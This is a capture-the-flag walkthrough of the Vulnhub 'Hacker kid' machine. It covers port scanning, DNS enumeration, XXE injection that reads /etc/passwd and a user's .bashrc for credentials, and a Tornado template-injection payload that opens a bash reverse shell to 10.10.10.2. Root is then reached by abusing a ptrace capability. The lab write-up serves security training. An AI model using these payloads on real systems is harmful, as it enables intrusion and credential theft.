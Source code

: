 # Hacker kid - Writeup 

Hacker kid is an easy/medium level machine from Vulnhub by Saket Sourav.

This box is OSCP style and focused on enumeration with easy exploitation.
The goal is to get root. No guessing or heavy bruteforce is required and proper hints are given at each step to move ahead.

Link to the machine: [https://www.vulnhub.com/entry/hacker-kid-101,719/](https://www.vulnhub.com/entry/hacker-kid-101,719/)
<br />

## Identify the target

Let's start by identifying the target's IP address.
```
fping -agq 10.10.10.0/24

10.10.10.1
10.10.10.2
10.10.10.10
```
<br />

## Port scan

Now, let's find some open ports and running services.
```
export ip=10.10.10.10

sudo nmap -p- -sV -sC -oN nmap.log $ip

Nmap scan report for 10.10.10.10
Host is up (0.00015s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Notorious Kid : A Hacker 
|_http-server-header: Apache/2.4.41 (Ubuntu)
9999/tcp open  http    Tornado httpd 6.1
| http-title: Please Log In
|_Requested resource was /login?next=%2F
|_http-server-header: TornadoServer/6.1
MAC Address: 08:00:27:72:B1:FF (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.71 seconds
```
<br />

## Enumerate Web Server

First, let us examine the web server on port 80.

![](Pics/web.png)

examined the source code and we found.
<br />

![](Pics/web2.png)
<br />


When we add `page_no` to the URL, we got a message.

![](Pics/web3.png)

<br />

So, let's do a little brute forcing on the request by sending it to `Intruder` in `Burp`.

![](Pics/burp.png)

<br />

Under the `Payloads` tab, chose the payload type to numbers. Then click on start attack.

![](Pics/burp2.png)

<br />

Click on `length` to see any difference in response size.

![](Pics/burp3.png)

<br />

Now, let's visit the link, we have a new message at the end of the page.

![](Pics/web4.png)
<br />

The hint says we have subdomains to enumerate, something about home, and a subdomain to work on.<br />
Let's add that subdomain in the `etc/hosts` file and then start our enumeration.

![](Pics/dns.png)
<br />

Let's use `dig` for DNS enumeration, the command is `dig hackers.blackhat.local @10.10.10.10`

![](Pics/dns2.png)
<br />

We have a new subdomain, add it in hosts file.

![](Pics/dns3.png)
<br />

And visit that subdomain.

![](Pics/web5.png)
<br />

We got a registration form, Let's examine it.

![](Pics/web6.png)
<br />

After a few tries, when we type an invalid email, it reflects.<br />
So, let's open Burp and intercept this request for more info.

![](Pics/burp4.png)
<br />

XML format. let's try to inject XXE (XML External Entity) in the request.

> Reference: [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

<br />

![](Pics/xxe.png)
<br />

You could see above, that the xxe injection worked and we got the `/etc/passwd` file, and there's a user called `Saket`.
Let's see what's in his home.
Just replace `'file:///etc/passwd'`  with  `'php://filter/convert.base64-encode/resource=/home/saket/.bashrc'`
![](Pics/xxe2.png)
<br />

And we got python app credentials. Now, back to our scan results, there is another running service on port 9999 which is Tornado Web server (a Python Web Technology). Let's navigate to it.

![](Pics/web7.png)
<br />

Tried to log in as admin with the credentials we've got but didn't work. Change the username from admin to Saket and it worked.

![](Pics/web8.png)
<br />

The page asking for a name, add in the link `?name=a`.

![](Pics/web9.png)
<br />

Ok, Anything we typed in the `name` parameter will return to us. Let's try SSTI (Server Side Template Injection).

![](Pics/web10.png)
<br />

> `Server-side template injection is a vulnerability where the attacker injects malicious input into a template to execute commands on the server-side. This vulnerability occurs when invalid user input is embedded into the template engine which can generally lead to remote code execution (RCE).`

> Reference:
> - [https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti)
> - [https://ajinabraham.com/blog/server-side-template-injection-in-tornado](https://ajinabraham.com/blog/server-side-template-injection-in-tornado)

<br />

Now, Let's get a shell.<br />
First, start a listener with netcat, copy the payload `{% import os %}{{os.system('bash -c "bash -i >& /dev/tcp/10.10.10.2/1234 0>&1"')}}`, and URL encode it.

![](Pics/encode.png)
<br />

Paste it into the URL.

![](Pics/shell.png)
<br />

We got a shell, upgrade it.

![](Pics/shell2.png)
<br />

## Root Access

Let's upload `linpeas` and try to get root.

![](Pics/priv.png)
<br />
 
Make it executable by `chmod +x linpeas.sh` and run it.

![](Pics/priv2.png)

We found a binary that has capability.

> `Linux Capabilities are used to allow binaries (executed by non-root users) to perform privileged operations without providing them all root permissions`.

> Ref: [https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc](https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc)

Now, Let's follow up, and first, let's download the script

![](Pics/priv3.png)
<br />

![](Pics/priv4.png)
<br />

Save this script and make it executable.

![](Pics/priv5.png)
<br />

Ok, let's find a service running as root with `ps -eaf`. 

![](Pics/priv6.png)
<br />

We gonna use the process with the PID `853`.<br />
Now, our command is ready `python2.7 exp.py 853`.<br />
Check if port 5600 is open, and connect to the target IP with netcat on port `5600`.

![](Pics/root.png)
